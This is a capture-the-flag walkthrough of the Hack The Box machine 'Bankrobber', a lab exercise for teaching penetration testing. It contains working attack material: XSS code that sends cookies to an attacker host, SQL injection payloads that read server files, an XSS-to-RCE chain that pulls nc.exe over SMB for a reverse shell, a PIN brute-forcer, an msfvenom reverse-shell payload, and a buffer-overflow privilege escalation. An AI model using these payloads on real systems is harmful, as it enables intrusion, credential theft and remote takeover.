# [Bankrobber](https://app.hackthebox.eu/machines/209)

Start off with an `nmap`:


Next banner grab the open services:



Browsing to `http://10.10.10.154` shows the following:


Trying to connect to the MariaDB on port 3306 gives the following:



So no remote access to the MariaDB. The website allows for a user registration and shows the following form after a valid login:



After submitting some garbage information in this form, the following alert pops up:


This looks like XSS? Maybe an admin account is looking at each submission. Test out the XSS theory in the form's comment field with a remote IP HTML `img` tag:

```html

```

And wait for the callback using a Python3 HTTP server:


So there is an XSS vulnerability! Looking at the cookies in a broswer's developer pannel for a user session shows username & password cookies that are base64 encoded and not `HttpOnly`:


Next use the following payload for the XSS to get the admin's credentials:

```html

```

**NOTE:** Had issues using the `onload` event on an `img` tag _or_ a basic `script` block with an `XMLHttpRequest` (shown below)... but the `onerror` event worked for an `img` tag with a bad `src` attribute?

```javascript
var r = new XMLHttpRequest();
r.open("GET","http://10.10.14.20/?c=".concat(encodeURIComponent(document.cookie)));
r.send();
```


So the first request to `http://10.10.14.20/nope.png` fails and triggers the `onerror` event to run JavaScript that sends the URI encoded admin cookies as an HTTP GET parameter to the Python3 HTTP server.

Decoding these URI/base64 encoded cookies gives the following:

- id: `1`

- Username: `admin`
- Password: `Hopelessromantic`

Logging in with these credentials, gives the following admin panel at `http://10.10.10.154/admin`:


Up at the top is a link to `NOTES.TXT` which shows the following:

```
- Move all files from the default Xampp folder: TODO
- Encode comments for every IP address except localhost: Done
- Take a break..
```

So this system is using `XAMPP` (https://www.apachefriends.org/index.html) with default file locations. Interesting, but nothing important yet... Trying out the backdoorchecker at the bottom gives the following error:


Hmmm... From `nmap`, this PHP web application is behind an Apache 2.4.39 proxy. Apache, as the proxy, will likely set the `REMOTE_ADDR` (https://www.php.net/manual/en/reserved.variables.server.php) field for PHP, which will prevent external access. Looking at the HTML source code for `/admin`, the following HTML form is shown for the backdoor:


The function `callsys()` can be found in `/js/system.js` (included via `<script>` at the top of the HTML):

```javascript
function callSys(cmd){
	var http = new XMLHttpRequest();
	var url = 'backdoorchecker.php';
  var params = 'cmd='+cmd;
  http.open('POST', url, true);
  http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
  http.onreadystatechange = function() {//Call a function when the state changes.
    if (http.readyState == 4 && http.status == 200) {
        document.getElementById("output").innerHTML = http.responseText;
    }
  }
	http.send(params);
}

```

This can be easily converted into Python3 to test for spoofing past the Apache proxy with a forged `REMOTE_ADDR`. 

**NOTE:** Information about the `X-Forwarded-For` HTTP header (https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For):

> The **`X-Forwarded-For`** (XFF) header is a de-facto standard header for identifying the originating IP address of a client connecting to a web server through an HTTP proxy or a load  balancer. When traffic is intercepted between clients and servers, server access logs contain the IP address of the proxy or load balancer only. To see the original IP address of the client, the `X-Forwarded-For` request header is used.

```python
import sys
import requests

if len(sys.argv) != 2:
  print(f'usage: python3 {sys.argv[0]} "cmd"')
  exit(1)

headers = {
  'Cookie': 'id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D',
  'X-Forwarded-For': '::1',
}

data = {
  'cmd': sys.argv[1]
}

url = 'http://10.10.10.154/admin/backdoorchecker.php'
r = requests.post(url, data=data, headers=headers)
print(r.content.decode())
```

However, when running this, the following output is given:

```
It's only allowed to access this function from localhost (::1).<br> This is due to the recent hack attempts on our server.
```

This looks like a dead end for now... The Search Users form looks vulnerable to SQL injection. A test with `' or 1=1--` shows the following error:

- SQL injection payload reference: https://github.com/payloadbox/sql-injection-payload-list



Yep, definitely vulnerable. Looking at the HTML source code for `/admin`, the following HTML form is shown for the user search:



The function `searchusers` can be found in `/js/system.js` (included via `<script>` at the top of the HTML):

```javascript
function searchusers(term){
	var http = new XMLHttpRequest();
		var url = 'search.php';
		var params = 'term='+term;
		http.open('POST', url, true);
		http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
		http.onreadystatechange = function() {
      //Call a function when the state changes.
    	if(http.readyState == 4 && http.status == 200) {
        	document.getElementById("searchoutput").innerHTML = http.responseText;
    	}
    }
		http.send(params);
}
```

With this info, the following Python3 script can be used to test SQL injection payloads:

```python
import sys
import requests

if len(sys.argv) != 2:
  print(f'usage: python3 {sys.argv[0]} "sql_query"')
  exit(1)

headers = {
  'Cookie': 'id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D',
}

data = {
  'term': sys.argv[1]
}

url = 'http://10.10.10.154/admin/search.php'
r = requests.post(url, data=data, headers=headers)
print(r.content.decode())
```

The underlying SQL statement for `search.php` is likely the following:

- **NOTE:** See https://mariadb.com/kb/en/like/
- Assuming `id` is a column name to match the cookie
- Assuming `Users` is the table name since we are querying about users

```sql
SELECT * FROM Users WHERE id LIKE '<user_input>%'
```

First is to get control of the SQL statement by replacing `<user_input>` with `1' or 1=1 #`. That will return the following using the Python3 script:

```html
<table width='90%'><tr><th>ID</th><th>User</th></tr>
<tr>
  <td>1</td>
  <td>admin</td>
</tr>

<tr>
  <td>2</td>
  <td>gio</td>
</tr>

<tr>
  <td>3</td>
  <td>bubba</td>
</tr>
</table>
```

Next is to figure out who this SQL statement is running as and in what database. To do that, an SQL UNION query can be used. However, to run a UNION query, the number of columns is needed. To get the number of columns, use `1' ORDER BY <x> #` and replace `<x>` with the number of columns to test for. After setting `x` to 4, the Python3 script returns the following:

- **NOTE:** `ORDER BY` documentation: https://mariadb.com/kb/en/order-by/

```
There is a problem with your SQL syntax
```

So the number of columns in the current table is 3. Use this to craft `1' UNION SELECT database(),user(),'?' #` as the SQL payload for the Python3 script to get the following:

- **NOTE:** `USER()` function documentation: https://mariadb.com/kb/en/user/
- **NOTE:** `DATABASE()` function documentation: https://mariadb.com/kb/en/database/
- The third column (`?`) seems to not be returned in the HTML table created by PHP

```html
<table width='90%'><tr><th>ID</th><th>User</th></tr>
<tr>
  <td>1</td>
  <td>admin</td>
</tr>

<tr>
  <td>bankrobber</td>
  <td>root@localhost</td>
</tr>
</table>
```

So this query executes as the `root` user with complete access to the `bankrobber` database! Using this new access, an SQL query can be used to get information about `http://10.10.10.154/admin/backdoorchecker.php`. From `NOTES.TXT`, it is known that the system is using XMAPP with default install locations. From https://www.apachefriends.org/faq_windows.html, these locations are:

- WWW documents: `\xampp\htdocs`
- Apache configuration file: `\xampp\apache\conf\httpd.conf`
- PHP configuration file: `\xampp\php\php.ini`
- MySQL configuration file: `\xampp\mysql\bin\my.ini`

Using the SQL function `LOAD_FILE()` (https://mariadb.com/kb/en/load_file/), the following SQL query can be passed to the Python3 script:

```sql
1' UNION SELECT 'file:',LOAD_FILE('C:/xampp/htdocs/admin/backdoorchecker.php'),'?' #
```

This returns the following PHP source code for `backdoorchecker.php`:

```php
<?php
include('../link.php');
include('auth.php');

$username = base64_decode(urldecode($_COOKIE['username']));
$password = base64_decode(urldecode($_COOKIE['password']));
$bad 	  = array('$(','&');
$good 	  = "ls";

if(strtolower(substr(PHP_OS,0,3)) == "win"){
	$good = "dir";
}

if($username == "admin" && $password == "Hopelessromantic"){
	if(isset($_POST['cmd'])){
			// FILTER ESCAPE CHARS
			foreach($bad as $char){
				if(strpos($_POST['cmd'],$char) !== false){
					die("You're not allowed to do that.");
				}
			}
			// CHECK IF THE FIRST 2 CHARS ARE LS
			if(substr($_POST['cmd'], 0,strlen($good)) != $good){
				die("It's only allowed to use the $good command");
			}

			if($_SERVER['REMOTE_ADDR'] == "::1"){
				system($_POST['cmd']);
			} else{
				echo "It's only allowed to access this function from localhost (::1).<br> This is due to the recent hack attempts on our server.";
			}
	}
} else{
	echo "You are not allowed to use this function!";
}
?>
```

With this, all the information is present to attempt remote code execution (RCE). This requires sending an XSS payload as a user that will send a command to `http://10.10.10.154/admin/backdoorchecker.php` as admin. Before a full reverse shell, a test payload to is needed:

**NOTE:** This assumes that the admin user checking on E-coin transfer requests is doing so from an IP on localhost (::1)

This requires an XSS payload (called `xss.js`) that will be run by the `admin` user:

- `backdoorchecker.php` checks for `&` and `$(` but **not** `|`
- Using `ping.exe` here for RCE connectivity test

```javascript
var xhr = new XMLHttpRequest();
xhr.open('POST', 'http://localhost/admin/backdoorchecker.php', true);
xhr.withCredentials = true;
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.setRequestHeader('Cookie', 'id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D');
xhr.send('cmd=dir|ping.exe -n 5 10.10.14.20');
```

It also requires the submission of an E-coin transfer as a normal user to trigger the XSS. This can be automated with Python3:

```python
import sys
import requests

TARGET = 'http://10.10.10.154/'

if len(sys.argv) != 5:
  print(f'usage: python3 {sys.argv[0]} <attacker-ip> <username> <password> <XSS_file>')
  exit(1)

# login user:
s = requests.session()
data = {
  'username': sys.argv[2],
  'password': sys.argv[3],
}
print(f'[*] logging in user "{sys.argv[2]}" with password "{sys.argv[3]}" ...')
r = s.post(TARGET + '/login.php', data=data)
if r.status_code != requests.codes.ok:
  print('[-] error')
  exit(1)
print('[+] user cookies: ' + str(s.cookies.get_dict()))

# send payload request
print(f'[*] sending XSS payload: "http://{sys.argv[1]}/{sys.argv[4]}" ...')
data = {
  'fromId': s.cookies.get_dict()['id'],
  'toId': s.cookies.get_dict()['id'],
  'amount': '0',
  'comment': f'<script src="http://{sys.argv[1]}/{sys.argv[4]}"></script>',
}
r = s.post(TARGET + '/user/transfer.php', data=data)
if r.status_code != requests.codes.ok:
  print('[-] error')
  exit(1)
print('[+] DONE')
```

Here is the output of the script:


And the output of the Python3 HTTP server to serve the `xss.js` payload:


And lastly, the output of a `tcpdump` to catch the remote pings from `xss.js`:



That's RCE! Now to get an actual reverse shell, `smbserver` by `impacket` (https://github.com/SecureAuthCorp/impacket) can be used to host `nc.exe` for the remote client to _pull and execute all in one command_. Locating `nc.exe` on Kali:

- This should be at `/usr/share/windows-resources/binaries/nc.exe`

```bash
find / -iname nc.exe 2>/dev/null
```

Next, the `xss.js` payload needs to change. The last line of `xss.js` now becomes:

- `BUBBA` is the name of the SMB share with `smbserver`

```javascript
xhr.send('cmd=dir|\\\\10.10.14.20\\BUBBA\\nc.exe -e cmd.exe 10.10.14.20 6969');
```

Next copy over `nc.exe`, serve it with `smbserver`, and then trigger the XSS with the Python3 script:

- **NOTE:** There should be 3 listeners at this point _before_ running the Python3 script: 
  	1. A local netcat
   	2. `smbserver` SMB share
   	3. Python3's HTTP server

Here is the `smbserver` connection after triggering the XSS with the Python3 script:


And the reverse shell with the user flag!


Now to perform post exploitation... First looking at `systeminfo` and passing that to `wesng` (https://github.com/bitsadmin/wesng), the following info is given:


The earliest exploit is from 2016 and cross referencing that with https://github.com/SecWiki/windows-kernel-exploits, gives really only [MS16-135](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135) to try:



However, the binary can only work on builds of Windows 10 prior to v14393, which is the exact version of this target so a kernel exploit is unlikely at this point... 

Next for installed programs, an interesting one called `bankv2.exe` shows up:


This binary continues to get more interesting when looking at the firewall config:



So the admin was messing around with different versions of this bank binary and the firewall... Unfortunately, the latest version (`c:\bankv2.exe`) is not allowed through the firewall. Looking at running processes and open ports on the host shows the binary listening on port 910. However, the firewall is filtering this connection, which is why the original `nmap` didn't pick it up in the first place:


To get access to the binary behind the firewall, port forwarding is needed. This can be done on Kali with the binary `plink.exe`. Locating the binary:

- This should be at `/usr/share/windows-resources/binaries/plink.exe`

```bash
find / -iname plink.exe 2>/dev/null
```

Copy the binary to the SMB share folder being used by `smbserver` and copy it over to the target machine using `robocopy.exe`:

- `robocopy.exe` documentation: https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy



Now execute it. This command will SSH to the `<attacker-ip>` as `<user>` with a password of `<password>` and open port 5555 that will be fowarded to 127.0.0.1:910 on the target machine:

- When running `plink.exe` for the first time, the binary will hang and ask "Store key in cache? (y/n)". So a pipe of the character `y` is used to bypass this

- **NOTE:** If you get the following error, download the newer version of plink from here: https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe

  > FATAL ERROR: Couldn't agree a key exchange algorithm (available: curve25519-sha256,curve25519-sha256@libssh.org,ecdh-sha2-nistp256,ecdh-sha2-nistp384,ecdh-sha2-nistp521,diffie-hellman-group16-sha512,diffie-hellman-group18-sha512,diffie-hellman-group14-sha256)

```visual basic
cmd.exe /c echo y | %TEMP%\plink.exe -ssh -l <user> -pw <password> -R <attacker-ip>:5555:127.0.0.1:910 <attacker-ip>
```

After this, the local port 5555 will connect to the `bankv2.exe` binary:


It looks like a 4 digit pin is needed to login... this can be easily brute forced with a Python3 script:

```python
import string
import itertools
import subprocess

for c in itertools.product(string.digits, repeat=4):
  c = ''.join(c).encode()
  print(f'[*] trying {c.decode()} ...')
  p = subprocess.Popen('nc 127.0.0.1 5555', 
                       stdin=subprocess.PIPE, 
                       stdout=subprocess.PIPE, 
                       stderr=subprocess.STDOUT, 
                       shell=True)
  stdout, stderr = p.communicate(c + b'\n')
  p.terminate()
  if b'Access denied, disconnecting client' not in stdout:
    print(f'[+] found {c.decode()} !')
    print(stdout.decode())
    exit(1)
  if stderr:
    print(stderr.decode())
```

Running this script gives the following:



Now using the pin `0021` and using an e-coin amount of `0` gives the following:


Trying a massive input for the transfer amount gives the following:


Seems like now there is a buffer overflow here to exploit because the `bankv2.exe` binary seemed to crash with the large input?  On the target machine, `bankv2.exe` was no longer in the list of running processes of `tasklist` or listening on port 910 after running `netstat -ano`. Trying to pull the binary down for analysis does not work and fails with the following error:



_"De ingang is ongeldig."_ is Dutch for _"The handle is invalid."_ so pulling down the binary is not possible due to permissions. To try a blind buffer overlow, a unique pattern sequence can be used to speed-up fuzzing. On Kali, the script to use is `pattern_create.rb`. Locating it on Kali:

- **NOTE:** The ruby script should be at `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb`

```bash
locate pattern_create.rb
```

The first test buffer that was used was 128 digits long and caused a crash. So a buffer of 64 is a good starting point:



Now to use the buffer on `bankv2.exe`:


So there is an overflow and the bytes at the begining of the command string are `0Ab1`. Using the Kali sister ruby script `pattern_offset.rb`, the buffer offset is 32:


Since that completely overwrote the path string from the first execution (which was `c:\users\admin\desktop\transfer.exe`), it is hopeful that overwriting this path string provides control to which binary is executed on behalf of `bankv2.exe` (which was shown to be running as SYSTEM from the `tasklist` output previously). First thing is to make a payload:

```bash
msfvenom --platform windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe > shell.exe
```

Next transfer the payload to the target using `robocopy.exe` from the `smbserver` on Kali:

```visual basic
robocopy.exe \\<attacker-ip>\<smbserver-share> %USERPROFILE% shell.exe
```

Then trigger the overflow:

- **NOTE:** `%USERPROFILE%` expands to `C:\Users\Cortin` on the target system


And that gives SYSTEM!



